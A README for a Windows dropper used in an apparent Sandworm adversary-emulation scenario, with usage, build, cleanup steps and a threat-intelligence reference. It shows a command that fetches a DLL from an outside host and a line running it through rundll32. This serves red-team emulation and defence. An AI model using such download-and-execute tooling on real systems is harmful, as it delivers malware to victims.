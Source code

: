 # Exaramel Windows Dropper

This program is used in step5 of the sandworm scenario to download and execute Exaramel-Windows.dll.

This program is executed on target via PsExec.py.

This program then downloads the DLL via HTTP and URLDownloadToFile.

The downloaded DLL is then executed via the C standard library:

```C
system("rundll32.exe evil.dll,Start")
```


## Quick Start

Execute this program on Windows:

```
Usage:
    .\Exaramel-Windows-Dropper.exe <url> <file_path>

Example:
    .\Exaramel-windows-Dropper.exe http://192.168.0.4/getFile/Exaramel-Windows.dll .\Exaramel-Windows.dll
```

>Note: This program does not work with self-signed certificates unless you import the certificate on the target system first.

## Build Instructions

Download and install a C++ compiler: https://jmeubank.github.io/tdm-gcc/download/

Run the make.bat script from a terminal (cmd.exe):

```
make.bat
```

You should have 'Exaramel-Windows-Dropper.exe' in the current working directory.

## Cleanup Instructions

Delete Exaramel-Windows-Dropper.exe and any downloaded files.

Reboot the system to flush any DLL's from process memory.

## CTI Evidence

Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.

https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/